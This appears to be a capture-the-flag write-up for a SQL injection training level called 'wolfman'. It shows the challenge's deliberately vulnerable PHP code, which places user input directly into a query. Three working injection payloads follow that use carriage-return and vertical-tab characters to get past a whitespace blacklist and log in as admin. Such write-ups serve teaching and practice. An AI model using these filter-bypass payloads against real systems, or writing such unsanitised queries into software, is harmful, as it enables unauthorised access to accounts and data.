 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
BLACKLIST: White spaces

PAYLOAD 1: ?pw='||id='admin'%23
OUTPUT: select id from prob_wolfman where id='guest' and pw=''||id='admin'#'

PAYLOAD 2: ?pw='or%0Did='admin'--%0D-
OUTPUT:  select id from prob_wolfman where id='guest' and pw=''or id='admin'-- -'
(Carriage Return)

PAYLOAD 3: ?pw='or%0Bid='admin'--%0B-
OUTPUT: select id from prob_wolfman where id='guest' and pw=''orid='admin'---'
(Vertical Tab)

Wolfman Clear
